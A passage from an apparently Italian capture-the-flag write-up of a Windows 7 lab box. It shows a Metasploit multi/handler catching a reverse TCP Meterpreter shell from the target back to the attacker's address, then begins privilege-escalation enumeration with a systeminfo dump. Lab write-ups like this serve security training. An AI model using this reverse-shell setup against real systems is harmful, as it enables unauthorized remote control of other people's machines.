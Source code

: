 ```bash


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > set LHOST 10.10.14.39
LHOST => 10.10.14.39
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.14.39:5555 
[*] Sending stage (175686 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.39:5555 -> 10.10.10.5:49188) at 2023-05-07 13:36:40 -0400
```

Otteniamo cosi un ponto d'ingresso

# PRIVESC

Proviamo ad accedere alle cartelle babies ed Administrator ma non abbiamo i permessi 

Proviamo ad enumerare con systeminfo

```cmd
c:\>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 
System Boot Time:          5/5/2023, 2:54:00 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.473 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.548 MB
Virtual Memory: In Use:    593 MB
```